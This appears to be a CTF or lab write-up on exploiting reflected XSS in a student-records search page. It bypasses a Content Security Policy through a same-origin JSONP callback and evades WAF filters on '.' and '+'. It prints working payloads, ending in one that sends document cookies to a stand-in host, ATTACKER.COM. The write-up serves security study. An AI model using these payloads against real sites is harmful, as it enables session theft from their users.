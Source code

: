 ![](images/sturec1.png)

Injecting HTML into the search form for the last name, it can be seen that HTML input gets reflected on the query page. For example, typing in `<b>test</b>` as the last name displays the bolded test, as can be seen in the image above. However, injecting something like `<script>alert(1)</script>` does not seem to work since the Content Security Policy (CSP) blocks external scripts, as evident from the console shown below. 

![](images/sturec2.png)

Furthermore, analysing the network requests when loading the page indicates that a request is made to sturec.quoccabank.com/students.jsonp?q={QUERY}&callback=render, which returns the data to be displayed (based on query) wrapped within a render function call. This means we can use the jsonp route to load a script that we want to run, which won't be blocked since it comes from the same origin by adjusting the callback argument. 

As a proof of concept, entering the following payload into the search bar successfully yields an alert on the page:

```html
<script src=/students.jsonp?callback=alert(1);render />
```

![](images/sturec3.png)

This can be further extended to steal a user's cookies. From experimenting, it seems that the `+` and `.` characters are blocked by the WAF to prevent usual cookie stealing XSS attacks. However, malicious payloads can still be crafted to bypass such restrictions. Referring to `document['cookie']` instead of `document.cookie` bypasses the period character restriction. The `+` character restriction can be bypassed by sending a POST request to an attacker site with the cookie, or using string literals as shown below:

```html
<script src=/students.jsonp?callback=fetch(`${ATTACKER.COM/}${document['cookie']}`);render />
```
